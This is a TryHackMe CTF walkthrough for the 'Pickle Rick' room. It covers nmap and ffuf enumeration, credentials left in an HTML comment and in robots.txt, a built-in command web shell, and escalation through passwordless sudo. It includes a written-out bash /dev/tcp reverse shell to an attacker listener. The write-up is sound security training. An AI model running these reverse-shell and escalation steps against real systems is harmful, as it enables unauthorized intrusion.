 # Write-up: Pickle Rick @ TryHackMe

![logo](img/logo.png)

This write-up for the room *Pickle Rick* is part of my walk-through series for [TryHackMe](https://tryhackme.com).

Lab-Link: <https://tryhackme.com/room/picklerick>  
Room type: Free 
Difficulty: Easy

## Lab description

![Lab description](img/lab_description.png)

## Steps

### Basic enumeration

I start the lab with a nmap scan to find open ports on the machine.

```
nmap -nv -Pn -sC -sV -O -T4 -oA nmap 10.10.13.30
```

The options I use are the following:

| Option | Meaning | Reasoning |
| -- | -- | -- |
| -n | No DNS resolution | Makes no sense in the lab and slows down |
| -v | Verbose | Print open ports as soon as they are found |
| -Pn | No ping scan | In the lab, I assume the target is online | 
| -sC | Use default set of scripts | Note: This includes some intrusive scans, on a CTF box this is fine, in a real-world scenario using `--script=safe` is preferred |
| -sV | Version detection | Attempt to enumerate the versions for services found | 
| -O | OS detection | |
| -T4 | Use aggressive timing | Another option that is fine in CTF environments but can cause issues in the real world |
| -oA | Output all formats | I'd like to have all formats stored: nmap, xml and grepable |

Without any argument specifying the ports, nmap scans the 1000 most common ports. If you want to find out more, look at the file `/usr`/share/nmap/nmap-services`. 

The results come back showing just two ports open:

![Nmap results for the top 1000 TCP ports](img/nmap_results.png)

- SSH on port 22.
  Often not worth looking too deep inside as long as there are other avenues.
- A webserver on port 80.
  Webservers and the application they might run usually go straight to the top of the priority list.

While the OS detection came back inconclusive, both SSH- and web server hint towards Ubuntu, likely Xenial (16.04) based on the [4ubuntu2.6](https://launchpad.net/ubuntu/xenial/amd64/openssh-server/1:7.2p2-4ubuntu2.6) package version

---

### Checking the web application

The first step is to check what web application runs on the server, so I open a browser and have a look:

![Main web page](img/web_page.png)

It appears to be a fairly static page without any further link or functionality.

However, looking at the HTML reveals a piece of interesting information: a username

![Username disclosed in an HTML comment](img/username_revealed.png)

---

### Finding more web content

A quick check with ffuf shows the existence of two interesting files:

```
ffuf -w /usr/share/seclists/Discovery/Web-Content/raft-large-files.txt -u http://10.10.13.30/FUZZ
```

![A quick check with ffuf](img/ffuf_quick.png)

- a `robots.txt`
- a login.php

The check for `robots.txt` should be one of the first steps anyway, as it might contain useful information. In this case, though, it is a non-standard file that just contains an interesting word that does not exist in any language I know: 

![Content of robots.txt file](img/robots_txt.png)

It could be the password for the username, so I quickly attempt to log in with ssh. Unfortunately, the ssh server does not offer password authentication. 

So I move to the second page found, the `login.php`, and do the same thing there:

![Login successful](img/web_login_successful.png)

---

### Checking the web application

The login is successful and I start looking through the application. All links in the top menu link to a `denied` page, but the `commands` page looks interesting.

The `command` that I can execute there might be some application-specific one, or it might be a shell command. I give it a quick try by typing `id` and having it executed:

![A webshell provided by the application owner](img/web_shell.png)

As it turns out, it is a web shell that is provided by the application owner for my convenience.

---

### Checking the file system

I now check my environment in which I can execute commands:

![Content of directory](img/ls.png)

Trying to use `cut` or `head` to read files is prohibited but `egrep` is not, so I use it to grep for *any* character:

![The first flag](img/reading_first_flag.png)

An alternative would be to simply use the browser itself:

![Content of the clue.txt file](img/clue.png)

So I do as I'm asked. In the home directory of rick I find the second ingredient that was asked for:

![The home directory of rick](img/home_of_rick.png)

![The second ingredient](img/second_ingredient.png)

---

### Getting a proper shell

Using the web shell is tedious, and even though it is not required to solve this room, I want to obtain proper shell access. On my local machine, I start a ncat listener with `ncat -nvlp 8888` and execute a reverse shell on the command panel:

```
bash -c "bash -i >& /dev/tcp/10.14.5.57/8888 0>&1"
```

Unfortunately, a python upgrade to a proper tty shell is not successful as python is not installed. But this reverse shell is still much more convenient than the web shell.

---

### Local enumeration

For local enumeration, I use the tool [linpeas](https://github.com/carlospolop/PEASS-ng). I download it to my target and execute it.

A few seconds later, a nice finding is displayed:

![Vulnerable configuration found with linpeas](img/linpeas_finding.png)

The same information can be obtained manually with `sudo -l`:

![The same found manually](img/sudo_finding.png)

The low privilege account `www-data` is allowed to run any command as root without having to provide any password.

This is a serious misconfiguration and a direct path to eternal damnation.

---

### Escalating my privileges

The only thing that is left is to execute a few commands as root:

![The last flag](img/last_flag.png)

I enter the final flag and the room is completed.

![Room solved](img/success.png)
